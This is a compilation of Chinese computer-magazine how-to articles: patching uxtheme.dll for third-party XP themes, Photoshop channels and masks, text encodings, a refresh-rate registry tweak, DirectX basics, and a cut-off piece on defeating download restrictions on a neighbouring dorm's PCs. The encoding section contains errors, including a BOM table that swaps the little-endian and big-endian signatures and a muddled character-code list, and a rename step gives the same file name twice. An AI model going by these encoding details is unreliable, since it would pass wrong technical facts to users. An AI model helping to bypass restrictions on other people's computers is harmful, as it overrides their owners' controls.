别以为随便什么样的MSSTYLES文件都能拿来使用。虽然Windows XP通过Uxtheme.dll来运行扩展名为MSSTYLES的文件，但Uxtheme.dll具有安全认证环节，即应用主题前Uxtheme.dll会先检查主题是不是微软公司发布的。为保证Windows XP的系统稳定，这个功能本来无可厚非，但在实际使用中就给应用第三方主题带来了障碍。

## “三件衣服”到底哪个好？

要想用第三方扩展名为MSSTYLES的文件，就必须把它转换成一个不同的可视化文件格式，或使微软数字签名的保护失效，于是就出现了很多第三方换肤软件。
现在流行的换肤软件主要有WindowBlinds、Style XP、UXTheme，做为一般用户，该选择哪一款呢？

### 1. 使用单独可视化文件的WindowBlinds

WindowBlinds并没有通过系统自带的Uxtheme.dll文件来调用皮肤，而是通过它自己的可视化文件Wblind.dll调用第三方软件创建的皮肤。
该软件的优点是可以不断自动更新样式，因为它有自己独特的皮肤格式，所以效果也非常丰富（比如说任意尺寸的边框、按钮可以放到任何位置，有各种声音和颜色的按钮等）。而且WindowBlinds的皮肤格式完全开放，任何人都可以研究并修改，创造出各种风格不同的皮肤样式。
如果你想自己制作皮肤界面，可以使用SkinStudio（官方网址：http://www.skinstudio.net/），它是一款制作WindowBlinds系统皮肤的程序。通过它，用户可以很容易地制作系统皮肤，而用该软件制作的系统皮肤可以用来装饰Windows XP/98/Me的桌面，当然需要WindowBlinds XP或WindowBlinds才能应用这些皮肤。
不过WindowBlinds并不是免费的，你需要花20美元去注册（或者从http://www.objectdesktop.com/获得一些免费的资源）。 WindowBlinds 官方主页：http://www.## 2.可与WindowBlinds相媲美的Style XP

与WindowBlinds不同，Style XP和下面介绍的UXTheme Multi-Patcher都是修改Windows XP的Uxtheme.dll文件中的字节来使系统支持第三方桌面主题。Style XP是在Windows启动时，在内存中完成更换主题的工作。

Style XP是一套可以和Windowblinds XP相媲美的产品，它使修改Uxtheme.dll文件变得简单，并且通过这种方法修改Uxtheme.dll文件后，系统运行很稳定，不用担心兼容问题。其缺点同样是每当给Windows XP升级新皮肤时，就要花费20美元。

Style XP官方主页：http://www.tgtsoft.com/

## 3.免费大餐UXTheme Multi-Patcher

UXTheme Multi-Patcher是通过直接更换Windows XP的Uxtheme.dll文件实现换肤，优点是资源免费，不过最好请个高手帮你完成此操作，因为不同版本Windows XP的Uxtheme.dll版本也不同，所以必须选择适合你系统的Uxtheme.dll进行替换。而且由于这些Uxtheme.dll不是微软公司提供的，所以可能会引起一些问题。另外在替换系统文件时也必须要注意一下Windows XP的系统文件保护功能。

UXTheme Multi-Patcher官方主页：http://www.windowsx.org

注意以上两个软件都不会占用太多的内存（因为直接替换系统文件）。在目前电脑运算速度爆增的时代，这些皮肤只会用很少内存，根本不用担心使用这些软件后会影响电脑的运行速度。

### 如何让UXTheme Multi-Patcher震撼“视”界？

前面《资源和美丽我全要 XP完美克隆Mac OS》介绍的FlyakiteOSX，就是用替换Uxtheme.dll文件来实现的。因此下面我们来介绍一下UXTheme Multi-Patcher的用法。

第一步：到http://www.newhua.com/cfan/200503/UXTheme.rar下载软件，解压缩后运行其中的UXTheme Multi-Patcher 2.5.1.exe，点击Patch(修补)按钮。

第二步：这时会弹出你的系统信息窗口，确认你的系统与所列版本相同(不同版本替换后，会出现错误)，点击“OK”按钮。

第三步：稍后，会弹出“Windows文件保护”窗口，点击“取消”后，再点击两次“OK”，电脑重启，完成Uxtheme.dll文件的替换。

第四步：从http://www.themexp.org/、http://www.getskinned.org/等网站下载皮肤，将它们解压缩至C:\Windows\Resources\Themes(C为系统盘)。注意，用UXTheme Multi-Patcher修改后的系统，可以直接使用Style XP的Theme文件。

第五步：右击桌面空白处，选择“属性”，然后在“主题”标签下就可进行修改了(见图2)。有些皮肤使用后，会让文字变小，可以在“外观”标签下修改。



(湖北 黄迎 湖南 邹凯文)

## 图像处理软件的色彩车间——“通道”

适用软件：图形图像处理软件(如Photoshop、Photo-Paint等)

基本讲解：通道一词译自英文单词Channel，是图像处理中常用的一个概念，用来保存图像中的一些独特信息，常见的有原色通道、Alpha通道、专色通道等。

大多数图像处理软件就像是一个产品加工厂，打开图片就相当于把它送进了车间，首先软件会检测一下图片“身份”，如果是灰度图就直接打开处理，如果是彩色图像(索引图除外)，为了便于处理，则将图像中的三原色(红、绿、蓝，相信大家都知道大千世界缤纷的色彩都是基于它们混合变化出来的)分离开来放在不同的“车间”(即原色通道)里独立管理。如图1所示，通过Photoshop通道调板，可以清楚地看到图像色彩被分在了R(红)、G(绿)、B(蓝)三个通道中，最顶端的那个则是RGB通道合成后最终的图像效果。

这种分离放在不同车间(原色通道)的方法能使我们方便地编辑、修正图像的色彩，比如许多数码相机拍摄的照片或扫描仪扫出来的图片，经常出现偏色情况(照片偏红或偏蓝)，假设照片整体偏红，就可以进入R“车间”(即红色通道)调整一下亮度即可。正常的照片，也可以通过调整某一单独的原色通道而达到暖色调风格或冷色调风格。

点选进入某一独立通道后，大家会奇怪为什么三个通道中的颜色是都灰的，灰色如何变成了彩色的呢？其实这是Photoshop为了方便我们编辑通道而关闭了原色开关的原因。如果你有兴趣，可点击菜单命令“编辑→预设→显示与光标”，在打开的对话框中单击选中“通道用原色显示”项，就可以看到通道中的三原色了。

除原色通道外，一般图像处理软件还会在图像里加进自己独特的工作间以保存特殊信息，比如在Photoshop中，就是通过Alpha通道来保存选取区域的各种信息的(选区的形状、位置等)。

相信大家都有过这种体会，在Photoshop中用选取工具选择一个选区后，如果一不小心点击了别的地方，选区就会消失，但如果将选区信息保存到Alpha通道中，就能随时调用出来，而且还能像绘图一样随意编辑选区，达到各种殊的效果。如图2所示，就是在Alpha通道中编辑了一个边缘模糊的心形图案，然后在图像中按Ctrl键并点击保存心形图案的Alpha通道将其作为选区调出，再将其拷贝出来粘贴到新图像中做出的效果。限于篇幅，通道的妙用就不多说了。





(北京 阿飞)

## 字符背后的秘密——文字编码

相信大家对文字编码这个词并不陌生。可在我们的电脑中，文字编码究竟躲在哪个角落里呢？

### 角落1:区域与语言选项

点击“开始→设置→控制面板”，双击打开“区域与语言选项”，进入“高级”选项卡中我们看到了什么。

### 角落2:IE中的编码

打开IE，选择菜单“查看→编码”。

### 角落3:记事本保存框

打开“记事本”，选择菜单“文件→保存”，点开“编码”下拉菜单。

这样的“角落”着实不少，其实系统中只要有文字之处都需要文字编码。ANSI、UTF-8、GB2312、BIG5、Shift-JIS是什么？为什么在简体中文的系统中也能正常浏览繁体、日文或其他和自己系统文字编码不同的网站呢？为什么有时又会出现讨厌的乱码呢？如果你对这些问题还抱有疑问，那接下来就和我一起去文字编码的世界一探究竟吧。

### 文字编码知多少

我们的电脑并不能直接处理图形的字符，而是将每个字符先用对应的一个代码表示，在系统显示该字符时通过其代码在系统的字库中查找该字符的点阵图(即我们能够在屏幕上看到的文字)。最初的时候，人们收录了字符并按照一定规则组成了一个字符编码的集合—ANSI(即美国通用标准组织，各项国际标准的制定者，包括ANSI文字编码标准)的ASCII码(美国信息交换标准代码)，它使用7位(bits)来表示一个字符，如字符“a”的ASCII码为1100001，这样共能表示128(2的7次方)个字符，其中包括了英文字母、数字、标点符号等常用字符。后来，为了能表达更多字符，人们又将其进行了扩展，使用8位表示一个字符，共能表示256个字符(2的8次方)，主要在原来的7位字符集的基础上加入了一些特殊符号例如制表符。

随着各国语言的加入，问题出现了—ASCII已经不能满足信息交流的需要(试想256个字符的容量怎么可能把成千上万的汉字包括进去)。为了能表示各国文字，各国在ASCII的基础上制定了自己的字符集。所以，从ANSI标准派生的字符集被习惯性地统称为ANSI字符集，它们正式的名称应该是MBCS(Multi-Byte Character System，即多字节字符系统)。这些派生字符集的特点是以ASCII为基础，兼容ASCII。使用大于128的编码作为一个引导字节(Leading Byte)，紧跟在引导字节后的第二(甚至第三)个字符与引导字节一起形成新的文字编码。这样的字符集有很多，我们常见的GB2312就是其中之一。

### 电脑是如何处理多字节字符(MBCS)的

在电脑中的文字都是以其编码的形式存放的。当电脑处理文字时，首先逐个字节地读入字符，如发现该字节编码小于128，则确定其为标准ASCII码并从ASCII码表中将对应的字符取出；如发现该字节编码大于128，则确定其为引导字节，并切换至多字节字符(即MBCS)的处理方式，追加读取了一个(或两个)字节后组合成一个新的编码，然后从对应的字符集中取出显示。


由于每种语言都制定了自己的字符集，导致最后存在的各种字符集实在太多，在国际交流中要经常转换字符集，十分不便。为了方便信息交流，人们重新编写了字符集——Unicode，它为所有字符都分配了一个惟一对应的编码。因此无须考虑平台、程序、语言，在Unicode内核的软件中都能正常显示。同时，又因为标准的字符是用两个字节（即16位）表示的，所以标准的Unicode又称为UTF-16。后来为了双字节的Unicode能够在现存的处理单字节的系统上正确传输，出现了UTF-8，使用类似MBCS的方式对Unicode进行编码。也就是说UTF-16和UTF-8都属于Unicode这个字符编码集合。其实，Unicode还有多种编码形式，常见的有UTF-7、UTF-8、UTF-16和UTF-32，其中UTF-16和UTF-32又可分为Little endian和Big endian两个具体编码；而ASCII只有一种，大多数MBCS（包括GB2312）也只有一种。

### 电脑是如何处理Unicode字符的

- 第一步：运行UltraEdit，新建一个文本并输入“文字”（系统为简体中文，默认情况下这样的文字是GB2312编码），然后用Ctrl + H切换到16位编码器。
- 第二步：这时我们可以看到“文字”所对应的编码，也就是在GB2312中“文字”所对应的编码为“CE C4 D7 D6”（不含引号见图1）。
- 第三步：CE和D7就是刚才所说的引导字节(Leading Byte)，CE C4就构成了一个完整的GB2312编码，在GB2312字符集中表示“文”。


- 第一步：新建两个文本，并分别输入“文”、“编码”，然后全部用UTF-8格式保存；
- 第二步：在UltraEdit中用16位编码方式打开，即可发现“文”、“编码”的开头字符都是EF BB BF（见图2），这个我们可称之为UTF-8的特征字符。


- 第三步：其实，用同样的方法就可以发现UTF-7、UTF-8、UTF-16和UTF-32都有各自不同的特征字符。当我们不知道一个文本是用哪一种Unicode编码保存的，可通过特征字符来判断。

| 编码 | 特征字符 |
| :--- | :--- |
| UTF-7 | 2B 5 |
| UTF-8 | EF BB BF |
| UTF-16/Little Endian | FE FF |
| UTF-16/Big Endian | FF FE |
| UTF-32/Little Endian | FF FE 00 00 |
| UTF-32/Big Endian | 00 00 FF FE |

> 其实几乎所有文件的编码开头都遵循这个特征字符规则，我们也可通过这个方法识别丢失了文件后缀的文件，这样可防止执行了一些带有恶意代码的文件。详细内容请查阅本刊2004年第17期的特别话题。

### 不同文字编码转换原理

由于Unicode包含了几乎所有现在人类所能识别的字符的编码，所以Unicode已成为软件生产时所使用的文字编码的字符集，也就是一个软件的工业标准。例如Windows 2000/XP以及微软的Office2000及以后的产品，其内核字符都是采用了Unicode字符集里面的编码，因此这些系统就能够很好的支持多语种。也就是为什么我们在简体中文系统中能正常显示繁体中文、韩文或日文等不同编码文字的关键。那么，系统又是如何处理这些不同的编码的呢？

> 小提示
> 其实可以通过网页的源码，大多数情况下都可以知道是什么编码，通常看“encoding="xx"”和“charset="xx"”这两组关键字，xx就是文字编码了。

实例：“赵”、“糙”在简体中文、繁体中文和日文中都能正确显示的秘密
“赵”所对应编码：
赵 ←→ (GB2312:0xD5D4)
赵 ←→ (GB2312:0x77DA)
赵 ←→ (Big5:0xBB4F)
赵 ←→ (Unicode:0x8D75)
糙 ←→ (Unicode:0x8D99)
从上面的编码表中我们可以看出“赵”或“糙”虽然在GB2312、BIG5中编码不同，但只要将“赵”或“糙”在GB2312、BIG5中编码通过一定关系转换成Unicode字符库中的各自所对应的编码，则Unicode的编码就是相同的了。反之，比如对于Unicode中的“糙”的编码为0x8D99，当系统环境为GB2312时会被转换为0x77DA，这样它就会被正确地显示为GB3212的“糙”，当系统环境为Big5时会被转换为0xBB4F，它也会被正确地显示为繁体的“糙”。但是，如果我们在GB2312环境下，已经被系统自动编译为GB2312的“糙”的前提下使用Big5编码，那么系统就将0x77DA作为Big5编码进行解码，这样就会产生乱码了。举个简单的例子，比如我们登录到http://bbs.cfan.com.cn，这个网站默认是采用了GB2312编码，也就是说我们从网站服务器读取数据时，服务器已经告诉本地系统“我的网站是用GB2312编码的，你用GB2312看就行了”，不过这个时候打开鼠标右键选择“编码→BIG5”，这样强行用BIG5打开就是乱码了（见图3）。

### 半个字符的乱码的妙用——加密

除了文字编码不符合会产生乱码，由于汉字是由2个字节组成的，也就是说1个字节是“半个汉字”，当一个汉字中的“半个汉字”丢失或被删除，剩余的部分会可能和相邻的汉字重新组合，使得文本面目全非。这种情况会在邮件收发过程中比较常见，由于国内通行的大部分邮件服务器都能够处理简体中文编码的文件，所以可以直接传送文件而不需要编码，但如果要将中文邮件发到国外或在不支持8位(非标准ASCII码格式)的某些邮件主机上传输，就会产生乱码。具体就是在直接发送中文或非ASCII码的邮件时邮件主机无法处理，会把文件中每个字符的第八位都滤掉(截去第八位)，从而使一些信息和原始信息截然不同，或邮件完全损坏成为乱码无法阅读。这也是目前造成邮件乱码的主要原因之一。如果我们对邮件进行七位编码然后进行传输解码，就能解决截位乱码现象。
当我们遇上一个文本中只有一部分是乱码，可能就是由于其中某个文字的丢失了“半截”，可以用UltraEdit的十六进制编辑功能在乱码开始的地方往后删除半个字节，这样就将其中的一个字删除了，少了一个字应该不会影响正常的阅读的。

（文心）



## 图像“医疗”助手：蒙版

适用软件：图像处理软件，如Photoshop、CorelDRAW等。

基本讲解：Mask一词原是面具的意思，在图像处理软件中它通常被译着蒙版，也有译着掩膜、遮罩的。它主要的作用将图像中的某些部分“隔离”出来，防止那些不需要改动的部分被误删改。
实际生活中经常能见到使用“蒙版”的例子，比如装修时要为墙壁刷上两种不同颜色的墙漆，总是在刷好下面的墙漆并晾干之后，划好交界处的直线，然后用报纸将下面的完全蒙住，再刷上面的漆，这样就不用担心上面的漆滴洒下来而破坏下面已刷好的墙漆了。图像处理软件中的蒙版就具有这种保护功能：在Photoshop中，用选取工具将图像中某个需要擦除的部分圈选出来，然后就可以用橡皮擦工具放心大胆地来回擦除选区内的图像了，即使一不小心擦到了选区外面也没有关系，你会发现选区外面的图像一点也没有受到损伤。
大家可能奇怪，不是要说蒙版的么，怎么说起来选区了？其实，蒙版就是对选区的一个形象化表示而已，它让我们能更方便地编辑选区。不过在图像处理软件(如Photoshop)中，除了“隔离”功能外，蒙版还有着其他许多用途，大致可分为快速蒙版、图层蒙版、矢量蒙版、通道蒙版等，下面也简单介绍一下。

快速蒙版：在Photoshop中，选区画好后就很难对它再修改，虽然用一些快捷键可以对选区进行简单的编辑，但操作起来会很麻烦，这时可如图1所示单击工具箱的快速蒙版模式(或按快捷键Q)，则图像中选区之外的部分被蒙上了一层半透明的红色，这时可以用各种编辑工具(如画笔、铅笔、橡皮擦等)编辑这个蒙版，注意，用白色绘画时会擦掉红色，表示将该部分图像加入到选区中，用黑色绘画时会着上红色，表示将该部分图像排除出选区。精确修改好蒙版后，按Q键返回正常模式可以看到未被红色覆盖的部分都变成选区了。
蒙版通道：细心的读者会发现，进入快速蒙版模式时，通道调板中会自动增加一个Quick Mask(快速蒙版)通道，可见蒙版实际上就是一种Alpha通道。不过这个通道是临时的，回到正常模式时它就自动消失了。若想保存蒙版，就需要在正常模式下执行“选择→保存选区”命令。

图层蒙版：它是附加于图层之上的一个特殊“通道”，本身并不显示出来，而是根据它上面的颜色决定如何显示该图层上的图像：蒙版上白色部分的图像可以显示，黑色部分则不显示，灰色部分，则层中的图像半隐半现。利用这一特征，可以制作出嵌图文字、艺术化边框、渐变等特殊效果。
其他类型的蒙版，限于篇幅就不多介绍了。

（北京 阿飞）


## 垂直同步你凭什么影响我打CS

### 为什么关闭垂直同步，游戏帧数会提升

大家是否还记得我们介绍过的CS只有60帧的解决方法是关闭“垂直同步”，到底是什么原因造成这一问题的呢？

在阅读本文前，一定要先明确以下两点：
① CS等游戏中的帧数是受刷新率控制的；
② 刷新率是受垂直同步影响的。

显示器工作原理不外乎是隔行扫描及逐行扫描，不管是何种方式在显示图像时，包含水平同步及垂直同步两个参数。

水平同步信号决定显示器画出一条贯穿屏幕线所需的时间，而垂直同步信号决定了从屏幕顶部画到底部，再返回原始位置所需的时间，垂直同步就代表了显示器的刷新率水平。

现在出现问题了，虽然我们在桌面刷新率上设置的分辨率是75~85Hz（甚至更高），但在游戏中我们使用的是DirectX或OpenGL对画面重新渲染，这时刷新率被默认设置为60Hz，而游戏的帧数最高也就被限制在60帧了。

如果按照60帧来算，显卡会按照指定的60Hz频率来发送垂直同步信号，信号间的间隔是指定分辨率写一屏图像的时间（比如60Hz）。说得简单点，如果打开了垂直同步，在游戏中显卡绘制完一屏的图像后，由于垂直同步信号还没到达，显卡没办法进行下一屏绘制，只有等到60Hz的信号到达后才绘制下一屏，这样在游戏中的帧数就受到了系统刷新率的限制，因此经常只有60帧了（如果在CS中开枪，则可能因为运算等问题帧数还会降得更低）。关闭垂直同步后，在游戏中显卡绘制完一屏的画面后，无需等待垂直同步信号，就开始进行下一屏的绘制，这样就能完全发挥出显卡的实力了。但现在的问题是，只有打开垂直同步，才能让游戏画面与显示器刷新率同步，画面从而平滑、稳定。取消了垂直同步信号后，虽然速度是加快了，但图像会出现不连贯的现象。

举个例子，我们在玩一个游戏，该游戏内置的最高分数为10000分（打开垂直同步，刷新率为60），那么不管你游戏打得多好，最多也就是10000分（游戏中的帧数无法突破刷新率）。但如果用一些游戏的BUG突破了这10000分的限制（关闭垂直同步），虽然可以想打多少分打多少分，但是程序会出现一些小问题（画面闪烁或“跳”的现象）。

### 告诉你两全齐美的秘技

到底有没有方法可以既打开垂直同步，又让帧数超过60呢？其实只要将DirectX或OpenGL进行渲染时的刷新率提升，就可以解决问题了。让帧数超过60的方法很多，下面介绍一种不需要其他软件，就能让使用1024×768分辨率的CS帧数稳定在100帧的方法（此方法针对Windows 2000/XP，但是适用于高档CRT显示器）。

第一步：打开“注册表编辑器”，找到[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Class]，在此项下，你会看到很多以{4D36E96E-E325-11CE...}开头的子项，这些子项中，其中一项在窗口右侧的Class键键值为Monitor，它就是要修改的项目。以下会以如图1所示的{4D36E96E-E325-11CE-BFC1-08002BE10318}子项为例进行说明（见图1）。



第二步：在[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Class\{4D36E96E-E325-11CE-BFC1-08002BE10318}]项下应该有0000子项。如果仅有此子项，则使用第四步的方法，直接进行修改即可。如果除了0000子项外，还有如0001及0002子项，则需要用第五步的方法逐个查出控制显示器的哪个子项。

第三步：在[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Class\{4D36E96E-E325-11CE-BFC1-08002BE10318}\0000\MODES]项（如没有，则新建MODES项）下新建一个名为1024,768的子项，然后在其下新建一个名为Mode1的“字串”键，键值为100-100,100-100（见图2）。



第四步：现在我们来验证你的显示器是否支持该模式。右击桌面空白处，选择“属性”，点击“设置”标签，查看分辨率是否为1024×768，然后，点击“高级”按钮，查看“监视器”标签下的“刷新频率”是否为“100赫兹”。如果上以数据都正确，则表示修改成功，否则可以有下面两种解决方法：如果[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Class\{4D36E96E-E325-11CE-BFC1-08002BE10318}]项下只有0000子项，则表示你的显示器根本无法在分辨率1024×768下让刷新率达到100Hz，请将Mode1键修改为85-85，85-85等键值。如果除了0000子项外还有其他如0001子项或0002子项，则可按第三步方法重新修改。

现在你再进入游戏后，不管是用D3D模式，还是OpenGL模式，帧数都可以超过60了。

### 小提示

- ★使用该方法后，系统桌面的分辨率也会修改为1024×768，刷新率为100。如果一般用分辨率800×600玩游戏，则新建800,600项，只是桌面分辨率也会变为800×600。
- ★使用RefreshForce(下载地址:http://www.newhua.com/cfan/200505/reforce.zip)等第三方软件也可以修改刷新率，而且不影响桌面分辨率。
- ★如果是NVIDIA显卡的用户，可以参考如图3所示窗口设置。



## DirectX到底是谁

很多游戏的说明书上都标明了“需要安装DirectX ×.0”，很多显卡上都标称“硬件支持DirectX 9.0”，DirectX到底是谁？

### 基础篇

1.在哪里能找到DirectX
点击“开始→运行”，在运行输入框中输入“dxdiag.exe”（不含引号）回车，在弹出的“DirectX诊断工具”中我们就能查看系统中已安装的DirectX版本及其对应的设备状况等信息（见图1）。



2.DirectX到底是谁
在Windows体系结构中，在内核与硬件之间有一层抽象层，专门对硬件进行屏蔽抽象，所以用户不再被允许对硬件进行直接访问。这样的设计大大地提高了操作系统的抗破坏性和稳定性，但缺点是对硬件操作的效率大打折扣，许多新硬件的新特性无法直接使用，这对多媒体和游戏的发展显然是一种障碍。而DirectX是微软公司提供的一套优秀的应用程序编程接口（APIs），用于联系应用程序和硬件（见图2），它对发展Windows平台下的多媒体应用程序和电脑游戏起到了关键的作用。



### 3.DirectX 家族成员介绍

DirectDraw：“我是一名画家，专门绘制平面图，你们有要画的平面图别忘了找我噢～”说着还抛了个媚眼（众人：吐……）。
Direct3D对刚才满面春风的DirectDraw投去了鄙视的眼神：“楼上的，你行不行啊？平面图算什么，我是画三维立体图的，游戏经常找我帮他画立体图！”
DirectSound清了清嗓子，接过了话茬：“我是配音演员DirectSound，大家好！游戏中人物的声音、爆炸声等音效都是我配的音。”
轮到DirectMusic了：“我是一个音乐家，游戏中的背景音乐都是我播放的！”（众人：不就是个放音乐的吗，又没歌曲创作能力竟然还自称音乐家）
DirectPlay边在忙着联网边说：“我想大家可能已经看出来了，我的工作就是帮助游戏实现联网（网络连接）”
DirectInput大摇大摆地走了进来，张口就说：“你的鼠标移动、键盘操作都是我告诉游戏的，我要是生病了，你就控制不了游戏！”

### 4.DirectX 调用过程全跟踪（以显卡与DirectDraw为例）

[content]

在A机器中(TNT2显卡)
游戏程序(对DirectX)：“设置当前的屏幕分辨率为800×600，16位色。然后在屏幕坐标(X300，Y520)处画一个直径为3，颜色为#FF0000(RGB色彩，即红色)的实心圆。”
DirectX听到了游戏程序的指示，马上转过身对身后的TNT2显卡说：“你用自带的1号笔刷在屏幕上画这样一个图……(略)”TNT2显卡接到指示后，检查背包，找出了1号笔刷在屏幕上画了起来，几微秒后屏幕上即出现了一个游戏程序需要的圆，然后告诉DirectX：“我画好了！”DirectX看了看TNT2显卡画好的圆，然后回过头对正在焦急等待的游戏程序说：“已经画好了，你可以接着进行下一步动作了！”

在B机器中(Geforce 6800显卡)
游戏程序发出了同样的指示，DirectX接到后转身对Geforce 6800显卡说：“你用自带的圆形图章在屏幕这儿盖一下……(略)”
Geforce 6800显卡熟练地拿出了图章在屏幕上盖了一下，和刚才TNT2画的一模一样，但是时间却短了好几倍。DirectX检查了一下这个圆，满意地招呼游戏程序发出下一步指示。

从上面的对话场景中我们可以看到，在编写游戏程序时，我们根本无需考虑最终玩家的硬件配置究竟会是什么，而只需要知道对DirectX发出哪条指令即可。在不同的硬件环境下，DirectX会扮演一个翻译官的角色，将游戏程序的指令转化为对硬件(如显卡)的操作指令。

## 解惑篇

### 1. 为什么要使用 DirectX

在 Windows 95 问世以前，游戏编程行业还在唱“DOS永存！”的赞歌，因为那时所有的游戏程序都是建立在DOS架构上的，DOS架构下的一大特点是：程序可以直接调用硬件。但这一架构有一个问题，就是程序员始终不知道最终运行游戏的机器上的硬件配置是什么样的，各种显卡的不同特性很容易造成游戏的兼容性问题。到了Windows 9x时代后，直接访问硬件的行为被系统所禁止，而在Windows下绘制图形的速度简直让人无法忍受，于是Microsoft适时地推出了DirectX(在Windows下的多媒体接口)，但直到DirectX 5.0(在5.0之前DirectX的运行状况始终不好，大家仍喜欢在DOS下编写游戏。此版本前曾发布过两个较重要的版本：相当于DirectX 1.0的Game SDK和实现与DOS游戏等速的DirectX 3.0)出现之前，人们都还在迷恋DOS游戏。在DirectX普及后，程序员编写游戏轻松多了，无须再考虑硬件之间的差异，这个硬件能完成的绘制工作，换另一种硬件也同样也可以完成，游戏的兼容性也大大提高了。

### 相关故障:

Q：一运行游戏就出错，并提示“没有找到D3D8.DLL”(或类似提示)，应该如何解决？
A：这是由于没有安装 DirectX 或者系统中已安装的 DirectX 版本不符合游戏的最低要求。一般游戏的安装说明中都会注明所需的DirectX版本并在安装光盘中附带其安装文件，安装所需版本后重启并重新运行游戏即可。一般只需安装最新版本的 DirectX 就能支持所有游戏，可有些特定游戏仅支持某个特定版本的 DirectX(如《FF8》就只能支持DirectX 6.1a)，在此时则安装其要求的版本即可。

Q：安装了较高版本的 DirectX 后发现其与现有硬件驱动程序兼容性不佳，怎么换回老版本？
A：DirectX默认并没有提供卸载功能(MS就是牛！)，当我们在升级后出现问题时，大多数朋友不得不饮恨选择重装系统。其实我们可以借用第三方工具(如“DirectX随意卸”等)将其卸载，然后重新安装旧版本。

### 你知道吗 Windows 9x 和 Windows NT(2000/XP/2003)的 DirectX 的区别

在Windows 9x下，程序是可以通过调用系统中隐藏的DOS实现对底层硬件进行操作的，DirectX的功能仅在于实现游戏在Windows 9x和Windows NT平台上的兼容性(即保证同一游戏在两种平台上的运行状况一致)。而NT内核的系统彻底屏蔽了底层硬件的直接访问，所以DirectX在NT中成了“救命稻草”，成为了Windows NT内核下惟一能够利用系统自身组件编写高速游戏程序的方法。

### 2. 什么是软 / 硬件支持 DirectX

我们在购买显卡等硬件时常会看到广告词上写“硬件支持DirectX9.0”等，为什么还有软/硬件支持之分呢(见图3)？记得刚才我们曾经提到当游戏程序对DirectX发出指令时，DirectX会自动根据显卡类型来对显卡发出相应的硬件指令。这涉及到一个图形加速的概念，请看以下例子：

在没有图形加速功能的显卡上画一根直线
程序(思考状)：“你先在(X1，Y3)画一点，然后再在(X1，Y4)画一点……” 显卡：“好的，正在绘制该点。” 然后显卡就根据程序的运算结果所发出的点绘制指令将这条直线一点一点地画了出来。



在具有图形加速功能的显卡上画一条直线
程序(非常轻松)：“你绘制一条由(X1，Y3)到(X1，Y10)的直线。” 显卡：“好的。” 然后显卡一声不响地自己将绘制该条直线所需要的各点绘制了出来。

也许你会奇怪，这样不是都能达到效果吗，有什么区别呢？区别当然有，那就是将运算部分交给程序来处理远比交给硬件(显卡)来处理耗时得多。现在的主流显卡在设计制造过程中都遵循 DirectX 的标准，但DirectX版本之间也有差异，比如这块显卡支持利用硬件方式绘制一个三角形，而那块却只能用软件方式，这些对于游戏程序来说都是透明的。游戏程序把这个绘制三角形的任务交给 DirectX，如果 DirectX 检测出这块显卡支持硬件绘制方式，则直接调用显卡的硬件绘制功能，如果不支持，则由 DirectX 计算出绘制该三角形所需各点的坐标，然后调用显卡的点绘制功能画出该三角形(此处举例只为说明，实际的工作方式更为复杂，而非简单的点坐标计算)。

### 相关故障:

Q：桌面应用及运行2D游戏时未出现问题，运行3D游戏时发生未知错误或提示“3D加速功能未开启”，该如何解决？
A：这种情况多发于使用系统自带显卡驱动(也有部分非自带显卡驱动存在BUG导致此故障)的机器上，原因为此版本的驱动可能不支持“Direct3D加速”。检查是否确实为此故障非常简单，运行“dxdiag.exe”(不含引号)，在打开的“DirectX诊断工具”的“显示”选项卡中查看“Direct3D加速”后的状态，如果是“已启用”则正常，如为“已禁用”且右侧的“启用”按钮呈灰色不可用状态则说明驱动有问题。卸载此版本的驱动后安装别的版本即可(见图4)。



### 3. 贴图是什么

3D 显卡在屏幕上绘制 3D 物体时，首先会在空间坐标系内建立一个类似支架的模型，将该物体以轮廓线的形式画出。然后的过程即称为“贴图”，根据程序的要求选择合适的纹理填充到刚才建立的支架模型中。就好比我们在搭帐篷时，先把支撑的钢丝固定成型，才能将帐篷外层的帆布遮盖在钢丝上。

### 相关故障:

Q：为什么在玩游戏时会发生贴图错误的问题？
A：首先应确认不是游戏程序本身的BUG(可以通过在网上搜索“游戏名贴图错误”，看看是否也有其他“受害者”)。然后检查是否对CPU或显卡做过超频(包括硬件超频和软件超频)或降频(如CPUCool等)，如果有则恢复到未超频状态。如果无效则尝试更换显卡驱动，有一些显卡驱动自身的BUG会导致这个问题，而厂商也一定会在第一时间发布修正版本。如果更换驱动仍不能解决问题，那么就应该拆开机箱好好看看CPU及显卡的散热是否出了问题，散热不佳不但会导致贴图错误，严重的还会损坏硬件(如烧坏显卡)。如果你使用了内存修改器并对游戏中的一些数值进行了修改，也可能会导致贴图错误的故障。

### 4. 显存和游戏速度有什么关系

游戏在运行时，将外部的输入(如玩家的键盘或鼠标操作)和内部已设定好的逻辑运算得出的结果画面放到显示器上。可是有的运算要花费3毫秒，而有的则可能要花费20毫秒，那最终我们看到的画面岂不是不连贯了吗(有时快有时慢)？其实程序早已提前将几帧画面(一般2～3帧)运算好放在显卡的显存中了，而每隔一个固定的时间(如每秒30帧，则每隔1/30秒)从显存中取一帧画面放到显示器上。就好比一个沙漏，不论上方有多少沙子，沙子流下的速度都是恒定的。很多朋友以前都会问这样的问题：“我的CPU和显卡都是最新的，为什么走路和开枪速度和别人老机器上玩一样啊？”现在相信你应该有答案了。显卡或CPU的速度过慢，上方的沙子(计算好的画面)流完了，则会出现画面迟滞或跳帧的现象。如果显存太小，则运算好的画面无法存放在其中，DirectX就会将画面放在系统的内存中模拟显存，速度就会大大降低了(从显存中取画面的速度要几倍于从内存中取画面)。

### 你知道吗

### 变速齿轮的加速原理

上文曾经提过程将提前运行好的画面存放在显存中，并每隔一个固定的时间取一次放到显示器上。变速齿轮就是利用改变游戏用以判断间隔时间的时钟速度，来让程序误以为取画面的时间已经到了，而提前展示了下一幅画面来达到加速的目的。
（熊猫盼盼）

## 让下载限制不再

前几天去隔壁宿舍时发现他们的电脑里居然安装了还原卡还有还原软件，用用他们的电脑还这么麻烦，想不让我下载？想不想我保存？看我来怎么破解你！

### 解除下载限制

这点还难不倒我，先破解下载限制，否则很多软件都没办法使用。首先在电脑的IE状态栏右下角发现有个小地球(见图1)，点击它打开IE“安全”选项卡，点击“自定义级别→下载→启用→确定”即可。但你可能没那么好运，看不到小地球？没关系，把C：Windows\System下的inetcpl.cpl改为inetcpl.cpl，然后那个小地球就出现了。



### 破解注册表锁定

